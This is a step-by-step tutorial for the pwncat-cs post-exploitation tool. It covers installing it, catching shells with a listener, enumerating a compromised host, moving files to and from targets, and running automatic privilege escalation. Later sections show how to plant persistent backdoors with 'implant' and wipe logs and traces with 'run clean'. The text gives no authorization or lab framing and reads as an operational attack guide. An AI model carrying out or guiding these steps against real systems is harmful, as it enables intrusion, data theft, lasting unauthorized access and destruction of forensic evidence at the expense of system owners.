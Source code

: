 # Pwncat-cs

### Step 1: Installation

#### Prerequisites
- Python 3.6+ installed on your system.

#### Installation Steps
1. Open your terminal.
2. Install pwncat-cs using pip:

    ```bash
    pip install pwncat-cs
    ```

### Step 2: Basic Usage

#### Starting a Listener
pwncat-cs can act as a listener to receive connections from a target machine.

1. Start pwncat-cs in listening mode on a specific port:

    ```bash
    pwncat-cs -lp 4444
    ```

    Here, `-l` indicates listening mode and `-p` specifies the port number.

#### Connecting to a Remote Host
To connect to a remote host that is already listening, use the following command:

1. Connect to the target machine:

    ```bash
    pwncat-cs target_ip:4444
    ```

    Replace `target_ip` with the actual IP address of the target machine and `4444` with the port number.

### Step 3: Post-Exploitation

Once you have a shell on the target machine, you can use various pwncat-cs features for post-exploitation tasks.

#### Interacting with the Target
After successfully connecting, you'll get an interactive shell. You can use standard shell commands to interact with the target system.

#### Enumerating the System
pwncat-cs provides built-in enumeration capabilities.

1. Run an enumeration command:

    ```bash
    run enumerate
    ```

    This command will gather information about the target system, including users, groups, network information, and more.

#### Uploading Files
To upload files from your local machine to the target:

1. Use the `upload` command:

    ```bash
    upload /path/to/local/file /path/to/remote/destination
    ```

    Replace `/path/to/local/file` with the path to the file on your local machine and `/path/to/remote/destination` with the desired path on the target machine.

#### Downloading Files
To download files from the target to your local machine:

1. Use the `download` command:

    ```bash
    download /path/to/remote/file /path/to/local/destination
    ```

    Replace `/path/to/remote/file` with the path to the file on the target machine and `/path/to/local/destination` with the desired path on your local machine.

### Step 4: Privilege Escalation

pwncat-cs can help identify and exploit potential privilege escalation vectors.

#### Checking for Privilege Escalation
1. Run the `enumerate` command to gather information.
2. Analyze the results to identify potential vectors for privilege escalation.

#### Exploiting Privilege Escalation
1. Use built-in modules or scripts to exploit identified vectors. For example:

    ```bash
    run escalate
    ```

    This command will attempt various privilege escalation techniques based on the system's vulnerabilities.

### Step 5: Maintaining Access

#### Creating Persistent Backdoors
1. Use the `implant` command to create a persistent backdoor:

    ```bash
    implant /path/to/backdoor
    ```

    Replace `/path/to/backdoor` with the path to your backdoor script or binary.

#### Removing Traces
1. Use the `clean` command to remove traces of your activities:

    ```bash
    run clean
    ```

    This command will attempt to remove logs and other traces from the target system.

### Step 6: Advanced Features

#### Scripting with pwncat-cs
pwncat-cs supports scripting for automation.

1. Write a script to automate tasks.
2. Execute the script using pwncat-cs:

    ```bash
    pwncat-cs -s /path/to/script.py
    ```

    Replace `/path/to/script.py` with the path to your script.

### Conclusion
pwncat-cs is a powerful tool for post-exploitation and privilege escalation in cybersecurity. This tutorial covered the basic installation, usage, and advanced features of pwncat-cs. For more detailed information, refer to the [official documentation](https://pwncat.readthedocs.io/en/latest/usage.html).